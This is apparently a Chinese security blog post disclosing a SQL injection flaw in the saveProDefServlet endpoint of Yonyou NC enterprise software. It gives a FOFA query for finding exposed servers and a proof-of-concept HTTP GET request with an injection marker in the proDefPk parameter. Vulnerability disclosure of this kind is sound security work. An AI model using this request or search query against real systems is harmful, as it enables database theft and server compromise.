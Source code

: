 #  用友nc saveProDefServlet SQL注入漏洞  
原创 小白爱学习Sec  小白爱学习Sec   2025-06-20 00:01  
  
**免责声明**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=wxpic&random=0.18042352401019524&random=0.49301784938611526&random=0.7409665131631742 "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7L4WY53VhUO2spBG8TGAPF8o98Ac6Y3EPLSEFGmKXeZyQCOGkqFWbeMibTfC1wZLjJTDmLb4Z0P9VCAV3RLDbbQ/640?random=0.11828586430527777&random=0.3266770581654057&random=0.7229092426155448 "")  
  
本文旨在提供有关特定漏洞工具或安全风险的详细信息，以帮助安全研究人员、系统管理员和开发人员更好地理解和修复潜在的安全威胁，协助提高网络安全意识并推动技术进步，而非出于任何恶意目的。利用本文提到的漏洞信息或进行相关测试可能会违反法律法规或服务协议。  
作者不对读者基于本文内容而产生的任何行为或后果承担责任。  
如有任何侵权问题，请联系作者删除。  
  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
**简单介绍**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
  
用友NC是“企业资源规划（Enterprise Resource Planning）”的缩写，是指用友软件股份有限公司开发的一套企业管理软。用友NC系统是一种集成管理企业各项业务流程的信息化解决方案。该系统涵盖了财务、人力资源、供应链管理等多个方面，旨在帮助企业提高运营效率、优化资源利用、提升管理水平攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进⼀步获取服务器系统权限。  
  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
**复现环境**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
  
FOFA: app="用友-UFIDA-NC"  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/x095A8xUTuXutnj0wTQicfyqw8MT1THozapgicHQFibfYTyYugTxIQbwg3I0YFSCE7FWS3AyQ1FTUMNglRXoHibYHg/640?wx_fmt=png&from=appmsg "")  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
  
**漏洞POC**  
  
  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
```
GET /portal/pt/servlet/saveProDefServlet/doPost?pageId=login&proDefPk=1*&prodefxml=1 HTTP/1.1
Host: xxxxx

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/x095A8xUTuXutnj0wTQicfyqw8MT1THozgiarSsSbzziajYRDOIq4bjl8BWBRDHC4bDH0dMC1EtwrakcPJHRBDdoQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/x095A8xUTuWMRpvvqmMwKABosFPL6ptacLNz6fxia55bJuCgfYNDtSfiaSIZ9nU9IxDicXfNricwyMTJZUgo9dIgTg/640?wx_fmt=gif&from=appmsg "")  
  
创作不易，点赞、分享、转发支持一下吧！！  
  
  
  
  
